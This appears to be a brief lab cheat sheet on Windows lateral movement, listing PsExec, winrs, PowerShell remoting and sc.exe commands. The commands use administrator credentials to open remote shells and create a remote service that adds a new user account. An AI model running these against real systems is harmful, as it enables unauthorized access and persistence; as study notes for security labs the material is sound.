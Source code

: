 ## PSExec
```shell
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```
## WinRM 
```shell
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
```
Creating PS Credential Object
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```
Getting Remote Shell
```powershell
Enter-PSSession -Computername TARGET -Credential $credential
```
Running Remote Command
```powershell
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```
## SC
Create Service
```shell
sc.exe \\TARGET create $ServiceName binPath= "net user $Username Pass123 /add" start= auto
sc.exe \\TARGET start $ServiceName
```
Kill and delete service
```shell
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```